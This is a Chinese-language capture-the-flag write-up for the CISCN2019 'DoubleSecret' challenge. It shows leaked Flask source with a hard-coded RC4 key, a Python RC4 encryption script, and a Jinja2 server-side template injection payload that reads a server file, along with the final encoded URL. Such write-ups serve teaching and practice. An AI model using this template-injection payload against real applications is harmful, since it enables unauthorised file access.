

# CISCN2019华东南赛区-DoubleSecret1

打开后看到这样一句话

```
Welcome To Find Secret
```

尝试搜索页面，/secret

然后又是提示信息

```
Tell me your secret.I will encrypt it so others can't see
```

让我们传入数值，然后他会给我们加密，我们随便输点东西。报错了



```
# 假设这是在 Flask 应用中的一个视图函数，名为 secret
# 该函数可能用于处理用户输入的秘密信息，并进行解密和渲染
def secret():
    # 假设 secret 是一个变量，可能是从请求中获取的加密后的秘密信息
    # 检查 secret 变量是否为 None，如果为 None，说明没有提供秘密信息
    if(secret==None):
        # 如果 secret 为 None，返回提示信息，要求用户提供秘密信息
        return 'Tell me your secret.I will encrypt it so others can\'t see'
    
    # 实例化一个 RC4 加密解密类的对象，使用 "HereIsTreasure" 作为密钥
    # 这里假设 rc4_Modified 是一个自定义的模块，其中包含 RC4 类
    # RC4 是一种流加密算法，常用于数据的加密和解密
    rc = rc4_Modified.RC4("HereIsTreasure")   # 解密
    
    # 调用 RC4 对象的 do_crypt 方法对 secret 进行解密操作
    # 解密后的结果存储在 deS 变量中
    deS = rc.do_crypt(secret)
    
    # 使用 Flask 的 render_template_string 函数将解密后的字符串渲染为模板
    # safe 函数可能是 Flask 中的 MarkupSafe 模块的 safe 函数，用于将字符串标记为安全的，防止 XSS 攻击
    # 渲染后的结果存储在变量 a 中
    a = render_template_string(safe(deS))
    
    # 将渲染后的结果 a 转换为小写形式，并检查其中是否包含 'ciscn' 字符串
    if 'ciscn' in a.lower():
        # 如果包含 'ciscn' 字符串，返回提示信息，表明检测到了敏感信息
        return 'flag detected!'
    
    # 如果不包含 'ciscn' 字符串，返回渲染后的结果
    return a
```

这里对我们输入参数进行判断是否为空，如果为空，则返回一段话，就是刚刚那句，如果传入了参数，就会进行加密，可以看到是RC4加密，而且还泄露了密钥，密钥就是"HereIsTreasure"，而且通过报错，我们了解到这是flask的模板，而且python的版本是2.7的，那么我们可以利用flask的模板注入，执行命令，只不过需要进行RC4加密。RC4加密脚本

使用 `rc4_Modified.RC4` 类，以 `"HereIsTreasure"` 作为[密钥对](https://so.csdn.net/so/search?q=密钥对&spm=1001.2101.3001.7020) `secret` 进行解密，可以利用flask的模板注入，需加密

```
import base64
from urllib.parse import quote
def rc4_main(key = "init_key", message = "init_message"):
    # print("RC4加密主函数")
    s_box = rc4_init_sbox(key)
    crypt = str(rc4_excrypt(message, s_box))
    return  crypt
def rc4_init_sbox(key):
    s_box = list(range(256))  
    # print("原来的 s 盒：%s" % s_box)
    j = 0
    for i in range(256):
        j = (j + s_box[i] + ord(key[i % len(key)])) % 256
        s_box[i], s_box[j] = s_box[j], s_box[i]
    # print("混乱后的 s 盒：%s"% s_box)
    return s_box
def rc4_excrypt(plain, box):
    # print("调用加密程序成功。")
    res = []
    i = j = 0
    for s in plain:
        i = (i + 1) % 256
        j = (j + box[i]) % 256
        box[i], box[j] = box[j], box[i]
        t = (box[i] + box[j]) % 256
        k = box[t]
        res.append(chr(ord(s) ^ k))
    cipher = "".join(res)
    print("加密后的字符串是：%s" %quote(cipher))
    return (str(base64.b64encode(cipher.encode('utf-8')), 'utf-8'))
rc4_main("HereIsTreasure","{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/flag.txt').read()}}")
```

输出

```
.%14%1E%12%C3%A484mg%C2%9C%C3%8B%00%C2%81%C2%8D%C2%B8%C2%97%0B%C2%9EF%3B%C2%88m%C2%AEM5%C2%96%3D%C2%9D%5B%C3%987%C3%AA%12%C2%B4%05%C2%84A%C2%BF%17%C3%9Bh%C3%8F%C2%8F%C3%A1a%0F%C2%AE%09%C2%A0%C2%AEyS%2A%C2%A2d%7C%C2%98/%00%C2%90%C3%A9%03Y%C2%B2%C3%9B%1F%C2%B6H%3D%0A%23%C3%B1%5B%C2%9Cp%C2%AEn%C2%96i%5Dv%7FX%C2%92
```

传入payload：

```
/secret?secret=.%14%1E%12%C3%A484mg%C2%9C%C3%8B%00%C2%81%C2%8D%C2%B8%C2%97%0B%C2%9EF%3B%C2%88m%C2%AEM5%C2%96%3D%C2%9D%5B%C3%987%C3%AA%12%C2%B4%05%C2%84A%C2%BF%17%C3%9Bh%C3%8F%C2%8F%C3%A1a%0F%C2%AE%09%C2%A0%C2%AEyS%2A%C2%A2d%7C%C2%98/%00%C2%90%C3%A9%03Y%C2%B2%C3%9B%1F%C2%B6H%3D%0A%23%C3%B1%5B%C2%9Cp%C2%AEn%C2%96i%5Dv%7FX%C2%92
```

拿到flag


